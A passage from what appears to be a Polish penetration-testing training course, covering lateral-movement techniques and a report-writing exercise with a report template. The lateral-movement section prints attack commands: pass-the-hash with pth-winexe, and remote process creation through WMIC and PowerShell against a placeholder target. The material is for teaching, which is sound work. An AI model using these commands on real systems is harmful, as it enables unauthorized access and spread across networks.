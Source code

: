 **Techniki ruchu bocznego**:
```bash
# Pass-the-hash
pth-winexe -U domain/user%aad3b435b51404eeaad3b435b51404ee:hash //target cmd

# WMI
wmic /node:target process call create "cmd.exe /c whoami"

# PowerShell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe" -ComputerName target
```

**Oczekiwane rezultaty**:
- Uczestnicy znają techniki ruchu bocznego
- Potrafią mapować sieć
- Rozumieją znaczenie ruchu bocznego

---

## 5. Ćwiczenia z raportowania

### Ćwiczenie 5.1: Tworzenie raportu z testów

**Cel**: Nauka tworzenia skutecznych raportów

**Czas**: 60 minut

**Materiały**:
- Szablon raportu
- Przykładowe wyniki testów
- Komputery z edytorem tekstu

**Instrukcje**:
1. Uczestnicy otrzymują wyniki testów penetracyjnych
2. Tworzą raport zawierający:
   - Executive Summary
   - Metodologię
   - Odkryte luki
   - Ocena ryzyka
   - Rekomendacje
   - Plan naprawczy
3. Prezentują raporty i omawiają różnice

**Szablon raportu**:
```markdown
# Raport z testów penetracyjnych

## Executive Summary
- Cel testów
- Zakres testów
- Główne odkrycia
- Poziom ryzyka

## Metodologia
- Standard użyty
- Narzędzia
- Fazy testów

## Odkryte luki
### Luka 1: [Nazwa]
- Opis
- Krytyczność
- Dowód koncepcji
- Rekomendacje

## Ocena ryzyka
```